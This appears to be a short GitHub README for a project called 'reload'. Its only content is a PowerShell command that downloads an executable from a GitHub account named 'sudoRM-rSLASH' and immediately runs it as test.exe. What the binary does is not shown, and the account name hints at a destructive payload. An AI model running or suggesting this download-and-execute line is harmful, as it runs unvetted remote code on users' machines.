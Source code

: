 # reload
Run with: 
Invoke-WebRequest -OutFile test.exe -Uri https://github.com/sudoRM-rSLASH/reload/raw/master/main.exe; ./test.exe
